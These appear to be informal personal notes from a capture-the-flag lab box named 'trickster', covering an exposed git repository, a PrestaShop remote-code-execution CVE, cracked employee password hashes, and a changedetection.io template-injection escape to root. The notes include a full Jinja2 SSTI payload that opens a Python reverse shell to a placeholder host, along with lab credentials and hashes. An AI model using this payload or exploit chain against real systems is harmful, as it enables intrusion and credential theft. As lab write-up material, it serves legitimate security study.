 ___


port 22 and 80

shop subdomain has stuff the other looks kinda empty


mysql as database and PrestaShop as CMS it looks 



Email us: [admin@trickster.htb](mailto:admin@trickster.htb)



Version pc.7.3

NCC Version: ncc-5.2.0

Failed to complete request to https://iam-proxy.ntnx-base:8445/api/iam/authz/v1/proxy after 5 tries. Error: <urlopen error EOF occurred in violation of protocol (_ssl.c:1147)>



*.git/config found*
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = adam




*git directory is exposed*
# Index of /.git




*robots.txt has hella dirs*
this file is auto generated on presta shop though




*found modules*

============================ Modules =======================================

[+] Module: blockreassurance
[+] Module: ps_socialfollow
[+] Module: ps_searchbar
[+] Module: productcomments
[+] Module: blockwishlist
[+] Module: ps_imageslider
[+] Module: ps_shoppingcart
[+] Module: ps_banner
[+] Module: ps_emailalerts
[+] Module: ps_emailsubscription




ADAM is a name in the repo apparently




*things to check*
vulnerable presta shop modules
some file with creds
user admi or adam or some other user with git push on repo



*git commit mssg*
cat COMMIT_EDITMSG
update admin pannel




adam <adam@trickster.htb> 1716538399 -0400	commit (initial): update admin pannel



*this was the commit I have to find the diff for*
0cbc7831c1104f1fb0948ba46f75f1666e18e64c




*truffle hog flagged this no idea why*
└> nvim /home/ew/box/trickster/git_dump/.git/objects/62/585aa06f38d994b20e6345f095996170043034



*this has dep and vers of some stuff*
└> nvim /home/ew/box/trickster/git_dump/admin634ewutrx1jgitlooaj/themes/new-theme/package-lock.json




*I think this whole repo is just the admin pannel thats the name at least*

*I think this is admin panel*
admin634ewutrx1jgitlooaj



*that is the admin panel and I also got the version*

8.1.5




i think som vulns here


*I think this the RCE right here*
https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/


ok got shell


I imagine is probs adam the user



app/config -> parameters.php file has a bunch of stuff probs it




*finally some hashes*

MariaDB [prestashop]> select * from ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
|           1 |          1 |       1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25      | 2024-05-25    | 0000-00-00         | 0000-00-00       |                    1 | NULL                 | NULL     | default  | theme.css |           1 |        0 |       1 |      1 |  NULL |             5 |                        0 |                0 | 2025-09-19           | NULL                 | 0000-00-00 00:00:00     |                    0 |
|           2 |          2 |       0 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL            | NULL          | NULL               | NULL             |                    1 | NULL                 | NULL     | NULL     | NULL      |           0 |        0 |       1 |      0 |  NULL |             0 |                        0 |                0 | NULL                 | NULL                 | NULL                    |                    0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+


*cracked a hash james ssh pass *
alwaysandforever 


damn wasn't that bad but took me a min


*ok what now -> priv esc?*

-either crack more hashes for lateral movement
-check what james owns on filesystem
-theres som stuff on opt
-connect to chrome port (idk tho that might b just box functionality)



*runner user might be click XSS on the site as well as running this might be able to connect with chrome debug feature*
 /home/runner/prestashop/chromedriver --port=34627 


runc is running a container

I saw a sendmail command on pspy




okay seems like james has no interesting files that he owns




*prusaslicer in opt can get me rce by modifying the .mf3 file -> lateral or priv esc? r there processes running that?*




2025/09/20 20:45:01 CMD: UID=0    PID=9802   | /usr/sbin/sendmail -FCronDaemon -i -B8BITMIME -oem root






sudo nmap -sSVC localhost -p35023 --vv -Pn -> running golang http server 

not chrome debug port 




*changedetection.py what is this*

2025/09/20 21:16:59 CMD: UID=0    PID=11186  | python ./changedetection.py -d /datastore 




so container is running but no ports from it are forwarded on the locahost

have to access the ip directly at the port wich is 5000 default for this service


so this is docker bridge (virtual switch)

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1


addresses for containers start at 172.17.0.2 and increment



SSTI on jinja2 template server side RCE 

https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/



# rev shell payload

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}





# ok got root on docker container

 cat secret.txt
5fce75c64d33acf05d2d3b21d29e693d992f240d5c440310cff3edfb743c64a5# 

what is this




            "notification_urls": [],
            "pager_size": 50,
            "password": "yyyZe28Iu0oP02jyCsmZXQGPgzdi4yoEqLuvJ4HEysNflXTd8YoRAIr6yDEVcDc//hijc+HKgjTr2qinYRknig==",
            "render_anchor_tag_content": false,
            "schema_version": 14,
            "shared_diff_access": false,
            "webdriver_delay": null,





*secret.txt*
5fce75c64d33acf05d2d3b21d29e693d992f240d5c440310cff3edfb743c64a5


*password*
"password": "yyyZe28Iu0oP02jyCsmZXQGPgzdi4yoEqLuvJ4HEysNflXTd8YoRAIr6yDEVcDc//hijc+HKgjTr2qinYRknig==",





*found in one of the backup files*

                'database_name' => 'prestashop' ,                                                                                                                      
                'database_user' => 'adam' ,                                                                                                                            
                'database_password' => 'adam_admin992'





sudo -l 

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer




*if can run sudo as prusa priv esc*

https://github.com/suce0155/prusaslicer_exploit




